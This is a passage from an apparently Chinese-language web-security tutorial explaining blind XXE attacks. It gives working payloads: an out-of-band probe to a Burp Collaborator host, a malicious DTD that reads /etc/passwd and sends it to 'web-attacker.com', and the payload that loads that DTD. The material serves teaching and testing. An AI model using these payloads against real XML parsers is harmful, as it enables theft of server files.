 ```plain
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://zcfht5rvm0tol8h8o6rym5kwnntdh2.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

[![](assets/1706060044-6a4e2fc4d76b21037cfdc392c3585593.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131507-5f98b50e-b9ae-1.png)

#### 文件外带

使用带外技术检测一个盲注类型的 XXE 漏洞是非常方便的，但它并不能真正证明该漏洞是如何被利用的，攻击者真正想要实现的是泄露敏感数据，这可以通过盲注 XXE 漏洞实现，但它涉及攻击者在其控制的系统上托管恶意 DTD，然后从带内 XXE 有效负载中调用外部 DTD，恶意 DTD 对/etc/passwd 文件的内容进行过滤的示例如下：

```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

此 DTD 执行以下步骤：

-   定义一个名为 file 的 XML 参数实体，该实体包含/etc/passwd 文件的内容
-   定义一个名为 eval 的 XML 参数实体，其中包含另一个称为 exfiltere 的 XML 参数主体的动态声明，exfiltere 实体将通过向攻击者的 web 服务器发出 HTTP 请求来评估，该请求包含 URL 查询字符串中文件实体的值
-   使用 eval 实体，这将导致执行 exfiltered 实体的动态声明
-   使用 exfiltere 实体，以便通过请求指定的 URL 来计算其值

攻击者必须将恶意 DTD 托管在他们控制的系统上，通常是将其加载到自己的 Web 服务器上，例如：攻击者可能在以下 URL 提供恶意 DTD

```plain
http://web-attacker.com/malicious.dtd
```

最后攻击者必须向易受攻击的应用程序提交以下 XXE 负载，这个 XXE 有效载荷声明了一个名为 XXE 的 XML 参数实体，然后在 DTD 中使用该实体，这将导致 XML 解析器从攻击者的服务器获取外部 DTD 并对其进行内联解释，然后执行恶意 DTD 中定义的步骤并将/etc/passwd 文件传输到攻击者的服务器

```plain
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
